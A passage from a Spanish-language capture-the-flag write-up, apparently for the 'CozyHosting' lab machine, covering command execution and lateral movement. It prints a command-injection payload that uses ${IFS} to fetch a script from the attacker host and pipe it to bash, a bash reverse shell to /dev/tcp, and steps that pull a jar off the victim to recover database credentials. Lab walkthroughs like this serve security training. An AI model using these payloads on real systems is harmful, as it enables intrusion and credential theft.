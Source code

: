 Ya esta confirmadisimo que podemos ejecutar comandos, asi que nos mandaremos una reverse shell:

```ruby
;curl${IFS}<ip>:8080/pwn.sh|bash;
```

En el pwn.sh tengo esto:

```ruby
bash -i >& /dev/tcp/<ip>/4444 0>&1
```

Y nos deberia de llegar una rev shell

## Moviento laterial: app --> josh y flag de user

Al listar el cotenido podemos ver que tenemos un jar

```ruby
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Adicionalmente si exploramos el directorio **home**, vamos a poder ver al directorio del usuario josh

```ruby
app@cozyhosting:/home$ ls -l
total 4
drwxr-x--- 3 josh josh 4096 Aug  8 10:19 josh
```

Para pasarnos el archivo, en la maquina victima usare python para crear un servidor web

```ruby
python3 -m http.server 8086
```

Y en mi maquina solamente me lo descargare:

```ruby
wget http://cozyhosting.htb:8086/cloudhosting-0.0.1.jar
```

Como es un archivo jar, y no tengo un IDE para analizarlo, usare esta pagina para decompilarlo [https://jdec.app/](https://jdec.app/)

Al explorarlo un poco, vamos a poder ver credenciales para postgresql

![](/assets/img/htb-cozyHosting/10.png)
